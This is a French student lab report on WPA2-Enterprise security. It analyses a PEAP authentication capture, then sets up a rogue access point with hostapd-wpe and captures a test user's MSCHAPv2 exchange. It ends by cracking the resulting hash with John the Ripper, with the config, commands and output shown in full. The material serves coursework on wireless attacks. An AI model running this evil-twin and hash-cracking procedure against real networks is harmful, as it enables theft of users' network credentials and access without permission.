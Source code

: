 # Sécurité des réseaux sans fil - Laboratoire WPA2 Entreprise

## Authors
* Emmanuel Schmid
* Théo Gallandat
* Fabien Franchini

## 1. Capture et analyse d’une authentification WPA Entreprise

Dans cette première partie, nous allons capturer une connexion WPA Entreprise au réseau de
l’école avec Wireshark et fournir des captures d’écran indiquant dans chaque capture les
données demandées.

### Identifier le canal utilisé par l’AP dont la puissance est la plus élevée.
Vous pouvez fairececi avec airodump-ng, par exemple. Channel 1


### Requête et réponse d’authentification système ouvert
![alt text](./images/AuthOpen.png)
Le schéma ci-dessus représente une authentification système ouverte. On retrouve :   

#### La requête
![alt text](./images/Authen1.png)
#### La réponse
![alt text](./images/Authen2.png)

### Requête et réponse d’association
![alt text](./images/AssocSchema.png)
Le schéma ci-dessus représente une association système ouverte. On retrouve :   
### La requête
![alt text](./images/Assoc1.png)
### La réponse
![alt text](./images/Assoc2.png)


### Phase d’initialisation
![alt text](./images/phaseInit.png)
Le schéma ci-dessous repésente la phase d'initialisation

#### Sélection de la méthode d’authentification
Le protocole d’authentification est PEAP comme le montre la capture suivante :
![alt text](./images/methodeAuthSelect.png)

#### Arrivez-vous à voir l’identité du client ?
> Oui, se référer au screen suivant.

![alt text](./images/Identity.png)

### Phase hello
![alt text](./images/phaseHelloSchema.png)
Le schéma ci-dessous représente la **phase Hello** entre le client et l'AP.
#### Client
![alt text](./images/ClientHello.png)
> Dans l'ordre des encadrés rouges sur le screen ci-dessus, on retrouve : 
* Version TLS
* Nonce
* Suites cryptographiques proposées par le client 
* Méthodes de compression proposées par le client : null

#### Serveur
![alt text](./images/srvHello.png)

> Dans l'ordre des encadrés rouges sur le screen ci-dessus, on retrouve : 
* Version TLS
* Nonce
* Session ID
* Suites cryptographiques acceptées par l’AP
* Méthodes de compression acceptées par l'AP : null


### Phase de transmission de certificats
* Certificat serveur
![alt text](./images/PhaseCertif.png)
* Change cipher spec
![alt text](./images/ChangeCipherSpec.png)

### Authentification interne et transmission de la clé WPA
(échange chiffré, vucomme « Application data »)
![alt text](./images/AppData.png)

### 4 way hadshake
Le schéma ci-dessous représente le **4 way hadshake**.
![alt text](./images/4wayhandshake.png)
Le screen ci-dessous repésente le 4 way hadshake capturé.
![alt text](./images/handshakes.png)

### Questions

1. Quelle ou quelles méthode(s) d’authentification est/sont proposé(s) au client ? 
> * EAP-TLS
* EAP-PEAP

2. Quelle méthode d’authentification est utilisée ?
> * EAP-PEAP

3. Lors de l’échange de certificats entre le serveur d’authentification et le client :

  * Le serveur envoie un certificat au client ? Oui
![alt text](./images/srvCertif.png)


  * Le client envoie un certificat au serveur ? Non
![alt text](./images/clientCertif.png)

  c. Les deux s’échangent des certificats ? Non



## 2. Attaque WPA Entreprise

4. Quelles modifications sont nécessaires dans la configuration de hostapd-wpe pour cette attaque ?

Extrait de `/etc/hostapd-wpe/hostapd-wpe.conf`
```
# Configuration file for hostapd-wpe

# Interface - Probably wlan0 for 802.11, eth0 for wired
interface=wlan0

# May have to change these depending on build location
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ca_cert=/etc/hostapd-wpe/certs/ca.pem
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server.key
private_key_passwd=whatever
dh_file=/etc/hostapd-wpe/certs/dh

# 802.11 Options
ssid=hostapd-wpe
channel=1
```

On peut donc choisir l'interface, le ssid et le channel. Ici les modifications nécessaires ont été l'interface, et il faudrait aussi modifier le nom du ssid pour qu'il colle au nom du réseau dont on veut crée un `evil twin`. Ici de manière partique nous avons pas changer le ssid.

5. Quel type de hash doit-on indiquer à john pour craquer le handshake ?

Output de l'exécution de `hostapd-wpe`:
```
root@kali:~# hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
Configuration file: /etc/hostapd-wpe/hostapd-wpe.conf
Using interface wlan0 with hwaddr 00:c0:ca:8f:d9:e6 and ssid "hostapd-wpe"
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED
wlan0: STA 94:65:2d:a4:34:92 IEEE 802.11: associated
wlan0: CTRL-EVENT-EAP-STARTED 94:65:2d:a4:34:92
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25


mschapv2: Thu May 17 07:04:03 2018
	 username:	getting_hacked
	 challenge:	7a:46:19:94:04:65:7c:58
	 response:	74:2e:95:a4:03:a3:44:26:28:62:44:f1:cb:45:b2:a1:97:e6:d5:9f:f3:70:a1:2c
	 jtr NETNTLM:	getting_hacked:$NETNTLM$7a46199404657c58$742e95a403a34426286244f1cb45b2a197e6d59ff370a12c
```

On lui donne un hahs de type `netntlm`, ici `getting_hacked:$NETNTLM$7a46199404657c58$742e95a403a34426286244f1cb45b2a197e6d59ff370a12c` :
```
john --format=netntlm hash.txt                                                                                 
Loaded 1 password hash (netntlm, NTLMv1 C/R [MD4 DES (ESS MD5) 128/128 AVX 12x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
mdpasse          (getting_hacked)
1g 0:00:02:14 DONE 3/3 (2018-05-17 18:13) 0.007448g/s 29557Kp/s 29557Kc/s 29557KC/s mdpatkh..mdpageo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Le mot de passe est donc : `mdpasse`

6. Quelles méthodes d’authentification sont supportées par hostapd-wpe ?
  * EAP-FAST/MSCHAPv2 (Phase 0)
  * PEAP/MSCHAPv2
  * EAP-TTLS/MSCHAPv2
  * EAP-TTLS/MSCHAP
  * EAP-TTLS/CHAP
  * EAP-TTLS/PA
